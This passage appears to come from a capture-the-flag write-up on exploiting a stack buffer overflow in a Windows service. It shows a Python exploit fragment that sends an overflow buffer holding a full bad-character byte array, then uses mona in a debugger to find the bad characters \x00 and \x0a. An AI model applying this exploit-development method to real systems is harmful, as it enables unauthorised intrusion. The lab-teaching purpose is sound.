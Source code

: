 ```python
overflow = "A" * offset
retn = "BBBB"
#payload = "C" * (1000-146-4)
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

buffer = overflow + retn + padding + payload

# build a happy little message followed by a newline
buf = ""
buf += buffer
buf += "\n"


# send the happy little message down the socket
s.send(buf)

# print out what we send
print "Sent: {0}".format(buf)

# receive some data from the socket
data = s.recv(1024)

# print out what we received
print "Received: {0}".format(data)
```

After sending the above script I note the value of the ESP reg for the compare command:

![image](https://user-images.githubusercontent.com/83407557/185806906-22593b0e-884e-4754-ba80-8a53bbc74493.png)

I use this address of 015E19F8 to comapre the two byte arrays

`!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 015E19F8`

![image](https://user-images.githubusercontent.com/83407557/185807012-91666bea-9c8f-4d2a-bea2-42f9b86fa54a.png)


I remove \x0a from both arrays and resend:

![image](https://user-images.githubusercontent.com/83407557/185807142-04430f2d-21bd-45bd-a938-58126bb1ac65.png)

After both \x00\x0a were removed It seems the rest of the array can go through with no problem:
